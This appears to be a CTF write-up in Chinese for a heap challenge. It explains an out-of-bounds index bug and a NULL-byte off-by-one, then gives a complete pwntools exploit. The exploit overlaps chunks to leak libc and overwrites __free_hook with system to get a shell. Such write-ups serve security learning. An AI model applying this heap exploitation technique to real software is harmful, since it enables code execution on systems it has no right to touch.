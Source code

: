 ## note

又是赛后出exp...

from X1cT34m.C0ss4ck

#### Where

- chunklist 下标越界可写存储name和remark的结构体指针
- add堆块调用malloc后将size+1的内容清零导致NULL byte off-by-one

#### How

- NULL byte off-by-one来shrink chunk
- 切割shrinked chunk 此时会写下下个堆块的prevsize和size的previnuse（当然，这里有个错位，所以不用担心改到真的chunk上）
- shrinked chunk相对高地址的大堆块free，然后再按照切割shrinked chunk的顺序把top chunk切一遍
- 获得俩相同指针
- free其一，show另一个
- leak
- 接下来是智障操作了。。。写结构体

#### exp

```python
from pwn import *
context.arch = 'amd64'

io = process("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

def ch(c):
	io.sendlineafter("choice> ",str(c))
def add(size,data):
	ch(1)
	io.sendlineafter("> ",str(size))
	io.sendlineafter("> ",data)
def show(index):
	ch(2)
	io.sendlineafter("> ",str(index))
def rm(index):
	ch(3)
	io.sendlineafter("> ",str(index))
def bye(data):
	ch(4)
	io.sendlineafter("> ",data)

io.sendafter("> ","/bin/sh\0")

add(0xf8,'aaaa')	#0
add(0x1f8,'bbbb')	#1
add(0xf8,'cccc')	#2

rm(1)
rm(0)

add(0x100,'dddd')	#0
add(0x78,'eeee')	#1
add(0x138,'ffff')	#3
add(0x8,'gggg')		#4

rm(1)
rm(2)

add(0x78,'hhhh')	#1
add(0x138,'iiii')	#2
add(0x8,'jjjj')		#3

rm(2)
show(3)
libc_base = u64(io.recv(6).ljust(8,'\x00'))-(libc.sym['__malloc_hook']+0x10+88)
info("LIBC BASE -> %#x"%libc_base)

add(0x138,'xxxx')	#2
add(0x8,'yyyy')		#5
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x8,'yyyy')
add(0x58,'/bin/sh;'*2+'/bin/sh  ||     '+p64(libc_base+libc.sym['__free_hook'])[:-2])
bye(p64(libc_base+libc.sym['system']))
io.interactive()


```